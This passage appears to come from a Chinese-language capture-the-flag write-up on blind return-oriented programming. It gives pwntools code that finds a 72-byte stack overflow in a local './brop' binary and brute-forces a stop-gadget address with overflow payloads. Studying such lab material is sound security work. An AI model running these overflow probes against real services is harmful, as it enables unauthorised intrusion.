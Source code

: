 ```plain
                return i - 1
            else:
                i += 1
        # 栈溢出
        except EOFError:
            p.close()
            print 'Buffer flow length:%d'%(i-1)
            return i - 1

buffer_length = GetBufferLength()
#print buffer_length
```

```plain
[+] Starting local process './brop': pid 45215
[*] Stopped process './brop' (pid 45215)
72
```

缓冲区溢出长度为 72

3、寻找能够返回 main 函数的 gatgets，即 stop\_gatget

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

##buffer_length = GetBufferLength()
buffer_length = 72

def GetStopAddr(length):
        address = 0x400500
        while 1:
                print(hex(address))
                try:
                        p = process('./brop')
                        p.recvuntil('Do you know password?\n')
                        payload = 'a'*length + p64(address)
                        p.send(payload)
                        output = p.recv()
                        p.close()
                        #未成功返回到 main 函数头部开始执行
                        if not output.startswith('WelCome my friend'):
                                address += 1
                        else:
                            print('stop gadgets = 0x%x' % address)
                                return address
                #触发栈溢出异常
                except EOFError:
                        address += 1
                        p.close()

stop_gadget = GetStopAddr(buffer_length)
```
